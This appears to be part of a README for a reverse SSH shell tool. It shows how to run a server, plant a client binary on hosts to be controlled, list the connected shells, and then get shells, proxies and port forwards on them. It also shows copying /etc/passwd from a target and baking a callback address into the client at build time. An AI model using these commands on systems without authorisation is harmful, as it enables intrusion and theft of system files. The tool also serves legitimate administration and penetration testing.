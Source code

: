 ```sh
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232 #Set the server to listen on port 3232
```

Put the client binary on whatever you want to control, then connect to the server.

```sh
./client -d your.rssh.server.com:3232
```

You can then see what reverse shells have connected to you using `ls`:

```sh
ssh your.rssh.server.com -p 3232 ls -t
                                Targets
+------------------------------------------+------------+-------------+
| ID                                       | Hostname   | IP Address  |
+------------------------------------------+------------+-------------+
| 0f6ffecb15d75574e5e955e014e0546f6e2851ac | root.wombo | [::1]:45150 |
+------------------------------------------+------------+-------------+

```

Then typical ssh commands work, just specify your rssh server as a jump host. 

```sh
# Connect to full shell
ssh -J your.rssh.server.com:3232 root.wombo

# Run a command without pty
ssh -J your.rssh.server.com:3232 root.wombo help

# Start remote forward 
ssh -R 1234:localhost:1234 -J your.rssh.server.com:3232 root.wombo

# Start dynamic forward 
ssh -D 9050 -J your.rssh.server.com:3232 root.wombo

# SCP 
scp -J your.rssh.server.com:3232 root.wombo:/etc/passwd .

#SFTP
sftp -J your.rssh.server.com:3232 root.wombo:/etc/passwd .

```

## Fancy Features

### Baked in connect/call back address

Specify a default server at build time:

```sh
$ RSSH_HOMESERVER=your.rssh.server.com:3232 make

# Will connect to your.rssh.server.com:3232, even though no destination is specified
$ bin/client

# Behaviour is otherwise normal; will connect to the supplied host, e.g example.com:3232
$ bin/client -d example.com:3232
```
